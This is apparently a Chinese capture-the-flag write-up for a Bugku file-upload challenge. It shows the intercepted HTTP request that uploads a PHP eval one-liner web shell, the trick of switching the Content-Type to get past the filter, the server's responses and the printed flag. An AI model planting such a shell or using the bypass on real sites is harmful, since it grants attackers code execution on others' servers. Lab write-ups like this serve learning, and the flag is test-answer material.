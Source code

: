 # 上传测试

## 题目

> http://ctf.bugku.com/challenges#%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%B5%8B%E8%AF%95
>
> <http://103.238.227.13:10085/>
>
> Flag格式：Flag:xxxxxxxxxxxxx


## 解答思路
- 上传漏洞需要检测的两个字段

  1. content-type 

     依次测试各种常用的图片格式

  2. filename 

     修改filename的后缀名为图片格式

  

## 流程图

## 解题步骤

1. 上传php一句话，bp拦截

   ```http
   POST / HTTP/1.1
   Host: 103.238.227.13:10085
   Proxy-Connection: keep-alive
   Content-Length: 225
   Cache-Control: max-age=0
   Origin: http://103.238.227.13:10085
   Upgrade-Insecure-Requests: 1
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BXYLDylhw7Io7Jh
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
   Referer: http://103.238.227.13:10085/
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   
   ------WebKitFormBoundary2BXYLDylhw7Io7Jh
   Content-Disposition: form-data; name="file"; filename="php.php"
   Content-Type: application/octet-stream
   
   <?php @eval($_POST[123456]);?>
   ------WebKitFormBoundary2BXYLDylhw7Io7Jh--
   ```

2. 修改`Content-Type: application/octet-stream`为`Content-Type: image:jpg`

   回复：

   ```http
   HTTP/1.1 200 OK
   Server: nginx
   Date: Fri, 20 Jul 2018 01:57:17 GMT
   Content-Type: text/html; charset=utf-8
   Connection: keep-alive
   Vary: Accept-Encoding
   X-Powered-By: PHP/7.0.7
   Content-Length: 15
   
   非图片文件
   ```

3. 修改`Content-Type: application/octet-stream`为`Content-Type: image:gif`

   返回：

   `Flag:42e97d465f962c53df9549377b513c7e`


## 漏洞挖掘思路

- 无

## 自动化解析

- TODO

- 判断题目特征：`web` `php` `md5` 
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串

